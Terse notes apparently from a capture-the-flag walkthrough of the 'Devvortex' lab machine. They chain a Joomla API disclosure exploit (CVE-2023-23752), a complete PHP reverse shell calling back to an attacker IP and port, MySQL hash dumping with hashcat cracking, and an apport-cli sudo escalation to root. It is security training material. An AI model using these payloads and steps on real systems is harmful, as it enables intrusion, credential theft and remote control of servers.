 # ip
10.10.11.242

# subdomains
wfuzz -c -w ../../../SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "HOST:FUZZ.devvortex.htb" http://devvortex.htb
http://dev.devvortex.htb/

# info website
Joomla! 4.x
4.2.6

# exploit CVE-2023-23753
curl -v http://dev.devvortex.htb/api/index.php/v1/users?public=true

# users info
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

# exploit CVE-2023-23752
python3 CVE-2023-23752.py -u dev.devvortex.htb
User: lewis Password: P4ntherg0t1n5r3c0n## Database: joomla

# url template
http://dev.devvortex.htb/administrator/index.php?option=com_templates&view=template&id=223&file=aG9tZQ==&isMedia=0

# rev shell php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.23';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

# exploit php rce hacktricks
http://dev.devvortex.htb/templates/cassiopeia/error.php

# public secret
ZI7zLTbaGKliS9gq


<?php die("Access Denied"); ?>#x#a:2:{s:6:"result";s:32:"6d9102be74261b5507f9cadb93821b15";s:6:"output";s:0:"";}$

# connection mysql www-data
mysql -u lewis -p joomla
show databases;
show tables;
describe sd4fg_users
select id,username,password from sd4fg_users;

# password mysql logan, lewis
id      username        password
649     lewis   $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
650     logan   $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

# hashcat command
hashcat -m 3200 -O -w 4 hash /usr/share/wordlists/rockyou.txt

# pass bcrypt
tequieromucho

# root poc
https://github.com/diego-tella/CVE-2023-1326-PoC?tab=readme-ov-file

# exploit
sudo /usr/bin/apport-cli -f /var/crash/_usr_bin_sleep.1000.crash
/var/crash/_usr_bin_sleep.1000.crash
4
V
/bin/bash -i
